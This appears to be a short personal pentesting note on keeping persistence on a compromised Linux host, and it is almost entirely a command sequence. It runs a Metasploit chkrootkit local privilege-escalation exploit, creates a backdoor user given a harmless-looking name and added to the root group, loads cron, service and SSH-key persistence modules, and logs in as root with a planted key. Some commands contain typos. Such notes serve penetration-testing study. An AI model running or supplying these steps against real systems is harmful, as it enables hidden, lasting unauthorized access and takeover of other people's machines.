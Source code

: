 ```yaml
---
up: "[[Linux Post Exploitation]]"
---
```


# Establishing Persistence on Linux

- Gaining an initial foothold is not enough
- Persistence must be achieved
- The techniques will depend on the target configuration

## Demonstration

```bash
> use exploit/unix/local/chkrootkit
> set SESSION
> set CHKROOTKIT
> set LHOST
> run
^Z
> sessions -u <id>
> sessions <id>
# create a backdoor user
# with non sus name
# only work is ssh is on
m> 
$ useradd -m ftp -s /bin/bash
$ password ftp
$ usermod -aG root ftp
$ usermod -u 15 ftp
> use exploit/linux/local/cron_persistence
> use exploit/linux/local/service_persistence
> use post/linux/manage/sshkey_persistence
> set CREATESSHFOLDER true
# create priv key file
$ chmod 0400 ssh_key
ssh -i ssh_key root@<ip>
```
